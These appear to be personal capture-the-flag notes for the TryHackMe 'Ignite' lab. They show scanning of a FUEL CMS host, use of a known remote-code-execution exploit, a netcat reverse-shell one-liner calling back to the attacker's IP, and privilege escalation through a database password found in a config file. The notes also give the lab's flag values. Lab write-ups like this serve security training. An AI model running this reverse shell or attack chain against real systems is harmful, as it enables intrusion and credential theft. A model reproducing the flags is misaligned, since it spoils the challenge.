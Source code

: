 kali@kali:~/oscptraining/tryhackme/Ignite$ nmap -sV -sC -o nmap 10.10.235.151
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-13 12:12 EDT
Nmap scan report for 10.10.235.151
Host is up (0.35s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.63 seconds
kali@kali:~/oscptraining/tryhackme/Ignite$ gobuster dir -e -u http://10.10.235.151/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.235.151/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2020/10/13 12:14:11 Starting gobuster
===============================================================
http://10.10.235.151/.hta (Status: 403)
http://10.10.235.151/.htaccess (Status: 403)
http://10.10.235.151/.htpasswd (Status: 403)
http://10.10.235.151/0 (Status: 200)
http://10.10.235.151/assets (Status: 301)
http://10.10.235.151/home (Status: 200)
http://10.10.235.151/index.php (Status: 200)
http://10.10.235.151/index (Status: 200)
http://10.10.235.151/offline (Status: 200)
http://10.10.235.151/robots.txt (Status: 200)
http://10.10.235.151/server-status (Status: 403)
===============================================================
2020/10/13 12:18:08 Finished                                                                                                            
===============================================================  

kali@kali:~/oscptraining/tryhackme/Ignite$ searchsploit 47138 -p
  Exploit: fuelCMS 1.4.1 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/47138
     Path: /usr/share/exploitdb/exploits/linux/webapps/47138.py
File Type: HTML document, ASCII text, with CRLF line terminators


was stuck on installing request module in python2 and glad i found an answer here 
https://stackoverflow.com/questions/64376726/unable-to-install-requests-module-in-python2-7-kali-linux-as-it-keeps-appearin?noredirect=1#comment113836497_64376726

open netcat on kali
nc -lvnp 4444

code for reverseshell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.102.117 4444 >/tmp/f

https://unicornsec.com/home/tryhackme-ignite explanation 

listening on [any] 4444 ...
connect to [10.8.102.117] from (UNKNOWN) [10.10.141.217] 39652
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data


$ cd /home
$ ls
www-data
$ cd www-data
$ ls
flag.txt
$ cat flag.txt
6470e394cbf6dab6a91682cc8585059b 


find / -name database.php  (got this clue from the webpage itself, the config details are stored in this file)
find: '/var/tmp/systemd-private-f98332a1d1874cf0b78dcb439ab039ec-rtkit-daemon.service-4B3Pdw': Permission denied
/var/www/html/fuel/application/config/database.php
find: '/var/spool/rsyslog': Permission denied

now we can get into that database.php

we got something like this when we open it, now we got the password
$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',


using this gets me the filepath straight as i filtered out all those i cant access

$ find / -name database.php 2>&1 | grep -v "Permission denied"
/var/www/html/fuel/application/config/database.php

get the shell up
python -c 'import pty; pty.spawn("/bin/bash")'

www-data@ubuntu:/$ su
su
Password: mememe

root@ubuntu:/# cat root/root.txt
cat root/root.txt
b9bbcb33e11b80be759c4e844862482d 

and we got it!




